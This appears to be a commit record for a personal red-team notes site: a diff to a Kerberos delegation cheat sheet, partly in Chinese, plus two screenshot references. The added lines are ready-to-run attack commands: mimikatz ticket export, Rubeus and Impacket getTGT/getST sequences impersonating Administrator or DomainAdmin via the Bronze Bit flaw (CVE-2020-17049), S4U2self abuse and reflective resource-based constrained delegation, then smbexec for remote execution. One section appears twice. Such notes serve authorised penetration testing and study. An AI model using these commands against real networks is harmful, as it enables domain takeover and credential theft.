

Before and after one commit to C1ph3rX13/C1ph3rX13.github.io, an MkDocs documentation site: the page built from docs/ReadTeam/Windows/Active Directory/Delegation.md, in a window 1280 px wide and 1400 px high, scrolled down 7980 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 8979 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 20250606

````diff
--- a/docs/ReadTeam/Windows/Active Directory/Delegation.md
+++ b/docs/ReadTeam/Windows/Active Directory/Delegation.md
@@ -292,6 +292,8 @@ Rubeus.exe purge [/user:<User>]
 Kerberos Bronze - CVE-2020-17049
 
 ```powershell
+getST.py -force-forwardable -spn "$Target_SPN" -impersonate "Administrator" -dc-ip "$DC_HOST" -hashes :"$NT_HASH" "$DOMAIN"/"$USER"
+
 getST -spn "cifs/target" -impersonate "Administrator" DOMAIN/USER:PASSWORD -force-forwardable
 
 getST -force-forwardable -spn "$Target_SPN" -impersonate "Administrator" -dc-ip "$DC_HOST" -hashes :"$NT_HASH" "$DOMAIN"/"$USER"
@@ -317,7 +319,7 @@ msDS-AllowedToActOnBehalfOfOtherIdentity
 # Windows
 addcomputer -method SAMR -dc-ip <DC IP> -computer-name <Name$> -computer-pass p <Password> DOMAIN/USER:PASSWORD
 
-rbcd -dc-ip <DC IP> -action write -delegate-to <Attck Target>$ -delegate-from <Machine Account$> DOMAIN/USER:PASSWORD
+rbcd -dc-ip <DC IP> -action write -delegate-from <ControlledAccount> -delegate-to <Attck Target>$ DOMAIN/USER:PASSWORD
 
 getST -spn "cifs/target" -impersonate "Administrator" DOMAIN/USER:PASSWORD
 
@@ -419,6 +421,60 @@ KRB5CCNAME='TGT.ccache' getST.py -u2u -impersonate "Administrator" -spn "host/ta
 smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash 'domain'/'controlledaccountwithoutSPN'@'DomainController'
 ```
 
+## S4U2self Abuse
+
+```powershell
+# 前提条件
+mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
+
+# Windows
+Rubeus.exe tgtdeleg /nowrap
+Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
+Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /altservice:"cifs/machine.domain.local" /ticket:"base64ticket"
+
+# Linux
+getTGT.py -dc-ip "$DC_IP" -hashes :"$NT_HASH" "$DOMAIN"/"machine$"
+export KRB5CCNAME="/path/to/ticket.ccache"
+getST.py -self -impersonate "DomainAdmin" -altservice "cifs/machine.domain.local" -k -no-pass -dc-ip "DomainController" "domain.local"/'machine$'
+```
+
+## S4U2self Abuse
+
+```powershell
+# Windows
+# Machine account's TGT
+Rubeus.exe tgtdeleg /nowrap /target:<SPN>
+Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
+
+# Obtain a Service Ticket
+Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /altservice:"cifs/machine.domain.local" /ticket:"base64ticket"
+
+# Linux
+# Machine account's TGT
+getTGT.py -dc-ip "$DC_IP" -hashes :"$NT_HASH" "$DOMAIN"/"machine$"
+
+# Obtain a Service Ticket
+export KRB5CCNAME="/path/to/ticket.ccache"
+getST.py -self -impersonate "DomainAdmin" -altservice "cifs/machine.domain.local" -k -no-pass -dc-ip "DomainController" "domain.local"/'machine$'
+```
+
+## Empowering Active Directory Objects and Reflective Resource-Based Constrained Delegation
+
+如果拥有计算机账户的凭据，甚至只是一个TGT，就可以从该账户配置基于资源的受限委派（反射RBCD），然后使用S4U2Self和S4U2Proxy为任意用户获取其TGS
+
+```powershell
+Rubeus.exe asktgt /nowrap /domain:<Domain> /user:<Machine Account$> [/rc4:<NTHash> | /aes256:<NTHash>] [/ptt]
+Rubeus.exe ptt /ticket:<Base64 Ticket>
+
+Import-Module .\Microsoft.ActiveDirectory.Management.dll
+Set-ADComputer <Machine Account> -PrincipalsAllowedToDelegateToAccount <Machine Account$>
+Get-ADComputer <Machine Account> -Properties PrincipalsAllowedToDelegateToAccount
+
+Rubeus.exe s4u /nowrap /domain:<Domain> /user:<Machine Account$> [/rc4:<NTHash> | /aes256:<NTHash>] /msdsspn:cifs/<Machine Account SPN> /impersonateuser:Administrator [/ptt] [/outfile:<name>.kirbi]
+
+smbexec -k -no-pass <Machine Account>
+```
+
 ## 附录
 
 检查域控制器的KDC服务
````
Also changed, not shown: docs/Coding/Docker/Using Repo to install Docker Engine on Kali.md (+3 -2 lines), docs/ReadTeam/Windows/Active Directory/BloodHound.md (+2 -1 lines), docs/Zoo/Blogs.md (+2 -0 lines).
